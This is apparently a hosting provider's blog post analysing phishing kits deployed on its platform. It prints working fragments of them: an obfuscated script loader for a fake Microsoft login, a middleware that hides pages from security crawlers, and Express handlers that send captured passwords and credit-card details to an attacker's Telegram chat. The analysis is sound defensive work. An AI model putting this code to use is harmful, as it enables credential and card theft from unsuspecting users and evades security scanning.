There is a lot of dirty things you can do on the internet. There is disinformation, pirated movies, scams and cyber bullies, there is all you can eat pornography, spyware and even dark web assassins.

As a hosting provider, we do what is probably the dirtiest internet thing of all - we run code sent to us by total strangers.

At cyclic.sh, 99.9% of our users are awesome curious engineers, talented developers and entrepreneurs. Unfortunately a few of you (and you know who you are) (... and we know who you are ...), are not so awesome. In this post we showcase some of the common scams that those not-so-awesome few have tried to get away with.

The serverless nature of the platform naturally limits (does not eliminate) the capacity for many types of malicious behavior like vulnerability scanning, crypto mining,  brute force, etc. Unfortunately executing phishing attacks is still very much possible.  

<!-- The two most common ones we see: 
- Phishing 
  - Crypto
- Exfiltration  -->

## Phishing
We've all been trained to come up with `Str0n6P@ssw0rds123!`. Encrypted with modern super-sophisticated algorithms, even the most powerful machines would take many decades to crack. But, all that doesn't matter if you use that same strong password for both your netflix and your bank account, and then give that password away.   

For most phishing scams, traffic usually comes from email clients. Users are prompted to log in to view a file that was shared with them, reset a password or confirm some info. The URL will contain some kind of convincing subdomain or a bunch of encoded garbage query strings to make it look legit. 
```
https://adobe-shared-file.cyclic[.]app/login.html?isjjbyqr=Z2KA5fzNNoFkEXsbIWIDEY6VjN2Y&zentfd=H3pUFFohrG2b7r15&yewa=XNEKTU1EteKaAaqnDyFzffb&yczwfqu=mTIhOV644VPdxBtO7&bjyasthd=HedUyaoNKfOiQevwPVvNAwXjl3
```

We've also found that most phishing scams are not perpetrated by lone wolf hackers but what seem to be organized groups, akin to the now famous YouTube [call center](https://www.youtube.com/watch?v=xsLJZyih3Ac&ab_channel=MarkRober). 

There are different implementations but the shared anatomy is:
- Legit looking domain or path that you wouldn't look at twice
- Legit looking frontend that looks just like the real thing
- Some backend to anonymously exfiltrate captured data to the bad guys via:
  - Email (most often @proton.me) 
  - Telegram 
  - Discord 
  - MongoAtlas

### Microsoft Scam
By far the most common and probably the most crudely implemented phishing scam we see is an attack on Microsoft accounts. Just a simple login page. 

<p align="center">
    </img>
</p>

#### The code 
This one is a simple hello-world express.js site serving two static files `index.html` and `login2.html`. The file however contains single line of code. 

```html
<!-- public/index.html -->

<script type='text/javascript'> str='x3Cx21x44x4Fx43x54x59x.....2Fx68x74x6Dx6Cx3E'; document.write(unescape(str.replace(/x/g,'%'))); </script>
```
```html
<!-- public/login2.html -->

<script type='text/javascript'> str='x3Cx21x44x4Fx43x54x59x.....2Fx68x74x6Dx6Cx3E'; document.write(unescape(str.replace(/x/g,'%'))); </script>
```

This code obfuscated, encoded to hide its contents - in case the we or another host is doing static analysis during deployment. When loaded in the browser, `document.write` renders the malicious jQuery `$`s. 


<p align="center">
    </img>
</p>

The in the first file, a username is captured. The user is then redirected to the second which prompts the user for their password. On submit, the credential pair is ajax posted to another url. 

In all instances of this scam, the target url pointed to a `.php` file on what looked to be totally legitimate host domains who had become victims of a remote file inclusion (RFI) attack. Older misconfigured phpMyAdmin installations were vulnerable to XSS attacks, SQL injection, and in many cases had their default password left on. We've seen these servers to be generally hosting legitimate small businesses like dentist practices, restaurants, etc. 

In this instance `finish.php` was likely injected into the host maliciously by exploiting one of those PHP vulnerability. These `.php` files simply use php's  `mail` function to then forward the credentials to some other email set up by the attackers. 

### Adobe/Netflix Scam
Another very common scam targets Adobe's document cloud.

<p align="center">
    </img>


While Adobe and Netfix have been most common as of late, we've seen almost identical backend code for various frontends targeting America First Credit Union, CapitalOne, DHL, Netflix and others. 
#### The code

Implementation here is a more sophisticated full stack MVC site express with a nicely organized file structure.

<p align="center">
    </img>
</p>

Mimicking the authentic login sequence, the frontend is separated into multiple `.edge` files rendered with the [express-edge](https://github.com/ecrmnn/express-edge) view engine. The CSS and HTML have been ripped off from the real login page:

<p align="center">
    </img>
</p>

All the links to the Privacy Policy, Help Center and TOS still work and point to the real targets. The big difference is the form post points to `/auth/login`.

### What happens to your credentials 

#### `app.js`

The `/auth/login` route is implemented in a controller. 

<p align="center">
    </img>
</p>

Before looking at that, suspiciously authored by a git user with the name `Disney Plus`, there is something interesting in the  `app.js` file.

```js
// Bot Detection Middlewares
app.use(antibot);
```

There are good guys crawling the web looking for malicious sites like this one and the scammers don't want to be found. While this attacker is not masking their code to subvert static analysis, they are are trying to protect the scam site against dynamic scans:

```js
// antibot.js

const { getClientIp } = require('request-ip');
const { botUAList } = require('../config/botUA');
const { botIPList, botIPRangeList, botIPCIDRRangeList, botIPWildcardRangeList } = require('../config/botIP');
const { botRefList } = require('../config//botRef');

[...]

module.exports = (req, res, next) => {
	const clientUA = req.headers['user-agent'] || req.get('user-agent');
	const clientIP = getClientIp(req);
	const clientRef = req.headers.referer || req.headers.origin;

	if (isBotUA(clientUA) || isBotIP(clientIP) || isBotRef(clientRef)) {
		return res.status(404).type('html').end(`<title>404 Not Found</title><div><h2>Not Found</h2><p>The requested URL ${req.url} was not found on this server.</p></div>`);
	}

	next();
};
```

The files `../config/botUA`, `../config/botRef`, and `../config/botIP` contain huge lists of good guys' 
- ip ranges
- user agent regex strings like `google`, `duckduckbot`, `antivirus`
- referrer regex strings like `^security`, `^safebrowsing`, `^malwarebytes`

The middleware routes any matching requests to an innocuous 404 Not Found page. 

When the request is determined to be not a bot it is handled by the `loginPost` controller:

```js
const { sendMessageFor } = require('simple-telegram-message');
const { botToken, chatId } = require('../config/settings');

[...]

exports.loginPost = async (req, res) => {
	const { userId, password } = req.body;
	
    [...]

	const { ipAddress, Coordinates, City, Region, postalCode, Country, Time, provider, ASN } = iPDetails;

	const userAgent = req.headers['user-agent'];
	const systemLang = req.headers['accept-language'];

	const message =
		`👾 SHAKESWORDE | NETFL1X | USER_${ipAddress}\n\n` +
		`👤 LOGIN INFO\n` +
		`EMAIL/PHONE      : ${userId}\n` +
		`PASSWORD         : ${password}\n\n` +
		`🌍 GEO-IP INFO\n` +
		`IP ADDRESS       : ${ipAddress}\n` +
		`COORDINATES      : ${Coordinates}\n` +
		`CITY             : ${City}\n` +
		`STATE            : ${Region}\n` +
		`ZIP CODE         : ${postalCode}\n` +
		`COUNTRY          : ${Country}\n` +
		`TIME             : ${Time}\n` +
		`ISP              : ${provider} ${ASN}\n\n` +
		`💻 SYSTEM INFO\n` +
		`USER AGENT       : ${userAgent}\n` +
		`SYSTEM LANGUAGE  : ${systemLang}\n\n` +
		`💬 Telegram: https://t.me/UpdateTeams\n` +
		`🌐 Website: Coming soon!!\n`;

	const sendMessage = sendMessageFor(botToken, chatId);
	sendMessage(message);

	res.redirect('/auth/login/2');
};
```

The data then is formatted nicely with pretty icons and sent as a message to a Telegram chat set up by the attacker. Redirecting to `/auth/login/2` takes the user to the billing page where credit card info will be captured:

```js
[...]

exports.loginPost2 = async (req, res) => {
	const { cardNum, expDate, cvv } = req.body;
	const clientIP = getClientIp(req);

	function getIPDetails() {
		return ipInfo
			.getIPInfo(clientIP)
			.then((data) => {
				var data = data;
				return data;
			})
			.catch((err) => {
				console.log(err);
			});
	}

	const iPDetails = await getIPDetails();
	const { ipAddress, Time } = iPDetails;

	const message =
		`👾 SHAKESWORDE | NETFL1X | USER_${ipAddress}\n\n` +
		`👤 BILLING INFO\n` +
		`CARD NUMBER      : ${cardNum}\n` +
		`EXPIRY DATE      : ${expDate}\n` +
		`CVV              : ${cvv}\n\n` +
		`🌍 GEO-IP INFO\n` +
		`IP ADDRESS       : ${ipAddress}\n` +
		`TIME             : ${Time}\n\n` +
		`💬 Telegram: https://t.me/UpdateTeams\n` +
		`🌐 Website: Coming soon!!\n`;

	const sendMessage = sendMessageFor(botToken, chatId);
	sendMessage(message);

	res.redirect('/auth/login/3');
};

exports.login3 = (req, res) => {
	res.render('login3');
};

[...]

```
That is about the end of the story, after the attacker gets these messages, they win. 


Phishing sites are disposable and can be stood up quickly. An orchestrated email campaign can direct thousands of visitors to a fraudulent site within a short time. Props to the folks over at [Netcraft](https://netcraft.com); they're on the ball with reporting these shady sites to domain owners.

In the brief interval between the scam emails being sent, detection occurring, notification of the domain owner, and subsequent takedown - Some will fall for it. 

For hosting providers, both DAST and SAST are critical to identifying such scams before they even go live. While it is still very easy to create disposable GitHub accounts, many are obvious. Combining suspicious code detection with user traits helps us flag and triage malicious activity. 

In September, GitHub's turning on MFA by default will help. What about Telegram and Proton? Time to step up and take action against malicious disposable accounts on your platforms. 


## The mystery


The thing that stood out to me was the Telegram message header:
```
`👾 SHAKESWORDE | NETFL1X | USER_${ipAddress}\n\n` +
```

What is `SHAKESWORDE`? Is it some kind of cool 1337 haxor name? 

<p align="center">
    
</p>

So I googled it - 

<p align="center">
    </img>
</p>

```
00 -25% Scampages New Chase Bank Scam Page 2023 $ 200. ... Huntington Scampage (With Free Hosting and Domain) Williams Shakesworde 89 Views 3:16 Wells Fargo ...
```

Google's result seemed to find a site that lists some names of banks. Looks relevant.. 

`https://rose-lauchheim.de/zmcheldj/scampages.html` as well as the root domain `https://rose-lauchheim.de` are down.

No luck for `scampages.html` on the Wayback Machine. But the root domain: 

<p align="center">
    </img>
</p>

Pizza. It now made sense that at one point Pizza Rosa in the German countryside, was at one point victim of an some injection attack. `SHAKESWORDE` or somebody exploited their server and put that content there. 

I eventually found listings on GitHub under the [scampage topic](https://github.com/topics/scampage).

There were multiple repositories listing scampages for different targets with anti-bot features just like in the Netflix case above. 

<p align="center">
    </img>
</p>

I reported these. Hopefully GitHub takes them down quickly, but unfortunately until problems with disposable accounts are mitigated, they will probably be back. The mystery led to a dead end. 

## The good news

While no longer hosted at the `rose-lauchheim.de` domain, Pizzeria Rose seems to still be operational in Lauchheim, Germany. According to their google reviews, their pizza and pasta are delicious. The website button directs users to their [Facebook](https://www.facebook.com/profile.php?id=100063594878836).


<details>
    <summary>
    <h2>Scampage wall of shame</h2>
        <!-- ## Scampage wall of shame: -->
        </img>
        </img>
        </img>
        </img>
        </img>  
        <strong>[...]</strong>
    </summary>
    <p align="center">
        </img>
        </img>
        </img>
        </img>
        </img>
        </img>
